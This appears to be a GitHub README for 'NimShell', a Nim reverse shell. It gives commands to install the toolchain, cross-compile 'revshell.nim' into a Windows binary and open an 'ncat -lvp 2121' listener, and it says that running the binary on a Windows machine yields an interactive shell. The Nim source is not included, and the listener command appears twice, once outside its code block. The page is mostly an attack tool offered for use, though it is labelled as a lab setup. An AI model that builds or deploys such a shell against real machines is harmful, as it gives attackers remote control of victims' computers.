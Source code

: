 # NimShell
Simple Nim reverse shell:

#### Installation 

```bash
sudo apt-get install -y mingw-w64
sudo apt-get install nim
```
#### Building
```bash
nim c -d:mingw revshell.nim
```

<p align="center">
  <img src="https://i.imgur.com/6K1KN48.png">
</p>


sudo ncat -lvp 2121
#### Lab setup
```bash
sudo ncat -lvp 2121
```
Run on a windows machine and your interactive shell will started
<p align="center">
  <img src="https://i.imgur.com/Ifv2uEc.png">
</p>